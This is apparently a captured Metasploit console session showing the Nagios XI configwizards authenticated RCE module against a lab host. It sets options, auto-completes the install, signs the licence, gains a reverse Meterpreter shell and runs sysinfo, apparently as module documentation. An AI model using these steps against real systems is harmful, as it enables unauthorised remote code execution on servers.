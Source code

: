 ```
   Id  Name
   --  ----
   1   Linux (x64)



View the full module info with the info, or info -d command.

msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 9912
LPORT => 9912
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FINISH_INSTALL true
FINISH_INSTALL => true
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.153.128:9912
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] License agreement signed. The module will wait for 5 seconds and retry the login.
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Sending stage (3045348 bytes) to 192.168.153.132
[*] Meterpreter session 1 opened (192.168.153.128:9912 -> 192.168.153.132:32878) at 2023-02-07 11:48:50 -0600

[*] Command Stager progress - 100.00% done (833/833 bytes)

meterpreter >
meterpreter > getuid
Server username: apache
meterpreter > getprivs
[-] The "getprivs" command is not supported by this Meterpreter type (x64/linux)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.2.2.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/usr/local/nagiosxi/html/config
meterpreter >
```
